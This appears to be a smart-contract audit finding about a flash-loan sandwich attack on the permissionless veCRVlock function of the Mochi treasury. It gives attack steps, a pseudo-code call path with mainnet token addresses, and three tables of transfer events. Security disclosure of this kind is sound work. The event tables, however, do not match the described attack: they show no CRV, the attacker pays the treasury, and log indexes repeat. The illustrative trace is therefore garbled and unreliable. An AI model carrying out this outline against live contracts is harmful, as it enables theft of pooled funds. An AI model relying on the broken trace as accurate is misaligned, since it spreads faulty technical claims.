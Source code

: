 ## Source Code
https://github.com/code-423n4/2021-10-mochi/blob/main/projects/mochi-core/contracts/treasury/MochiTreasuryV0.sol#L73-L94

## POMA
There's a permissionless function veCRVlock in MochiTreasury. Since everyone can trigger this function, the attacker can launch a sandwich attack with flashloan to steal the funds. MochiTreasuryV0.sol#L73-L94

Attackers can possibly steal all the funds in the treasury. I consider this is a high-risk issue.

## Attack Transaction
1. (Flashloan and) buy CRV the uniswap pool
2. Trigger veCRVlock()
3. The treasury buys CRV at a very high price.
4. Sell CRV and pay back the loan.

```
// assign values
operator = 0x85beF3a368849FC1ff6820af7382372e30830986 (msg.sender)
token1 = 0xa0b86991c6218b36c1d19d4a2e9eb0ce3606eb48 (USDC)
token2 = 0xc02aaa39b223fe8d0a0e5c4f27ead9083c756cc2 (WETH)
amount0Out = 10e8
amount1Out = 0
to = operator
token = token2
inAmount = amount0Out
amountOut = 0
amountInMax = amount0Out
pairs = [0xb4e16d0168e52d35cacd2c6185b44281ec28c9dc (UniSwapV2)]
tokens = [USDC]
// execution path
UniSwapV2.swap(amount0Out, amount1Out, to, bytes(0))
MochiTreasuryV0.veCRVlock()
```

## Transfer Event
### Variant 1 (single transaction)

```
block_hash, transaction_hash, log_index, token_address, from_address, to_address, value
block#1, transaction#1, log#1, token1, operator, UniSwapV2, 10e8
block#1, transaction#1, log#2, token2, UniSwapV2, operator, 71777521544720215
block#1, transaction#1, log#3, token2, operator, MochiTreasuryV0, 71777521544720215
block#1, transaction#1, log#4, token1, operator, MochiTreasuryV0, 145927841345707238222094
block#1, transaction#1, log#5, token2, operator, MochiTreasuryV0, 71777521544720215
block#1, transaction#1, log#6, token1, operator, MochiTreasuryV0, 145927841345707238222094
```

### Variant 2 (separate transaction, same block)

```
block_hash, transaction_hash, log_index, token_address, from_address, to_address, value
block#1, transaction#1, log#1, token1, operator, UniSwapV2, 10e8
block#1, transaction#1, log#2, token2, UniSwapV2, operator, 71777521544720215
block#1, transaction#2, log#1, token2, operator, MochiTreasuryV0, 71777521544720215
block#1, transaction#2, log#2, token1, operator, MochiTreasuryV0, 145927841345707238222094
block#1, transaction#3, log#1, token2, operator, MochiTreasuryV0, 71777521544720215
block#1, transaction#3, log#2, token1, operator, MochiTreasuryV0, 145927841345707238222094
```

### Variant 3 (separate transaction, separate block)

```
block_hash, transaction_hash, log_index, token_address, from_address, to_address, value
block#1, transaction#1, log#1, token1, operator, UniSwapV2, 10e8
block#1, transaction#1, log#2, token2, UniSwapV2, operator, 71777521544720215
block#2, transaction#1, log#1, token2, operator, MochiTreasuryV0, 71777521544720215
block#2, transaction#1, log#2, token1, operator, MochiTreasuryV0, 145927841345707238222094
block#2, transaction#1, log#1, token2, operator, MochiTreasuryV0, 71777521544720215
block#2, transaction#1, log#2, token1, operator, MochiTreasuryV0, 145927841345707238222094
```